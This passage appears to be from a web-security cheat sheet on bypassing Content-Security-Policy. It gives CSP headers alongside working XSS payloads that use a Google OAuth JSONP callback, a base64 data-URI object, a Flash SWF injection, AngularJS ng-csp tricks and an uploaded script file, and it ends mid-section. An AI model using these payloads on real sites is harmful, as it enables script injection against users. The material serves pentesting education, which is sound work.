 XSS payloads:

cobalt.io?vuln_param=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)

 

Lack of object-src and default-src
CSP header

Content-Security-Policy: script-src 'self' ;

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

 

">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'><param name="AllowScriptAccess" value="always"></object>

 

Angular JS
The CSP policy can be bypassed if the AngularJS application loads any scripts from a whitelisted domain. To accomplish this, a callback function and vulnerable class must be called. In addition, a special $event object is defined for AngularJS events, which simply refers to the browser event object. Through this object, you can bypass the CSP.

CSP header

Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;

XSS payloads:

ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>

 

File Upload
You can bypass the CSP if you can upload a JS file. There is a high probability that the server validates the uploaded file and allows only the specified file types to be uploaded.

In addition, even if you upload JS code into a file with an extension accepted by the server (e.g. script.png if png extension is allowed), this won't suffice because some servers, like the apache server, determine the MIME type of the file based on its extension. Chrome browser, for example, rejects Javascript code running in an image.

CSP header

Content-Security-Policy: script-src 'self';  object-src 'none' ;

XSS payloads:

‘“><script src="/uploads/csp.js"></script>

 

Whitelisted Scheme
CSP header
